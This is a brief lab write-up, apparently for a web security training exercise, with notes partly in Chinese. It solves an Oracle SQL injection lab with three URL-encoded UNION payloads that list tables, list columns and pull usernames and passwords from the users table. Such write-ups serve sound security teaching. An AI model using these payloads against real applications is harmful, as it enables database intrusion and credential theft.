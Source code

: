 # Lab: SQL injection attack, listing the database contents on Oracle

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

## SQL injection
* 注入點在 `category`
* 題目說用的資料庫是 `Oracle`
* 一樣要拿到 username 跟 password
```
// 拿所有的 tables
payload = %27%20union%20select%20owner,%20table_name%20FROM%20all_tables%20--%20-
```
```
// 查 USERS_SZREHM 有哪些 columns
payload = %27%20union%20select%20owner,%20column_name%20FROM%20all_tab_columns%20WHERE%20table_name%20=%20%27USERS_SZREHM%27%20--%20-
```
```
// 拿 username password
payload = %27%20union%20select%20USERNAME_WBBWGY,PASSWORD_FWRCSQ%20FROM%20USERS_SZREHM%20--%20-
```